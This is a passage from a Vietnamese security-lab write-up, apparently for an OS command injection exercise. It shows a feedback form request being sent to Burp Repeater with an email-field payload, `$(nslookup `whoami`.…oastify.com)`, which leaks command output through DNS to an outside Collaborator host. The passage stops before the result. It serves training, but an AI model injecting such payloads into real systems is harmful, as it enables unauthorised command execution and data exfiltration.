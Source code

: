 Bên dưới là POST request khi nhấn "Submit feedback":

![image](images/lab-5/lab-5-2.png)

Gửi request trên sang Repeater, chúng ta thay đổi giá trị của tham số `email` thành payload sau:

```sh
$(nslookup `whoami`.woom79i0yfk1r1agb923lloz8qeh28qx.oastify.com)
```

![image](images/lab-5/lab-5-3.png)

Sau khi gửi request và chờ đợi một lúc, chúng ta thấy kết quả bên tab Collaborator:
